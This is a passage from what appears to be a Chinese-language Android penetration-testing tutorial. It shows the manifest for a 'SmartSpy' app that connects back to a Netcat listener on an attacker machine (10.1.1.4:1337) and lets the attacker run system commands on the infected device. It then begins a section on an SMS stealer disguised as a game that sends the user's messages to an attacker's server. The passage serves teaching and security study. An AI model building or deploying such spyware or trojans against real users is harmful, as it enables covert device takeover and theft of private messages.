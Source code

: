 ```

将前面的权限添加到`AndroidManifest.xml`文件后，代码应该如下所示：

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.androidpentesting.smartspy" >

    <uses-permission android:name="android.permission.INTERNET"></uses-permission>
    <application
        android:allowBackup="true"
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".MainActivity"
            android:label="@string/app_name" >
            <intent-filter>
              <action android:name="android.intent.action.MAIN" />

              <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

是时候在模拟器上运行这个代码了。在执行此操作之前，请在攻击者的机器上启动 Netcat 侦听器，如以下屏幕截图所示。这是 IP 地址为`10.1.1.4`的机器，端口`1337`用于连接：

![Registering permissions](../Images/image01512.jpeg)

现在运行应用程序并在模拟器中启动它。应该是这样的：

![Registering permissions](../Images/image01513.jpeg)

一旦我们运行它，应用程序应该与服务器建立连接：

![Registering permissions](../Images/image01514.jpeg)

现在，我们可以使用安装的应用程序的权限运行任何系统命令。下面的屏幕截图显示了`id`命令的输出：

![Registering permissions](../Images/image01515.jpeg)

下图显示了受感染设备的 CPU 信息：

![Registering permissions](../Images/image01516.jpeg)

## 写一个简单的短信窃取者

在部分中，我们将了解如何编写一个简单的短信窃取程序，从用户设备读取短信并将其发送到攻击者的服务器。其想法是创建一个看起来像简单游戏的应用程序。当用户点击**开始游戏**按钮时，它从设备读取 SMSE 并将其发送给攻击者。首先创建一个新的 Android Studio 项目并将其命名为`SmartStealer`。

### 用户界面

正如在介绍中提到的，我们将在第一个活动中有一个**启动游戏**按钮，如下所示：

![The user interface](../Images/image01517.jpeg)

以下是显示此用户界面的`activity_main.xml`文件的代码：

```
<RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android"
  xmlns:tools="http://schemas.android.com/tools" android:layout_width="match_parent"
    android:layout_height="match_parent" android:paddingLeft="@dimen/activity_horizontal_margin"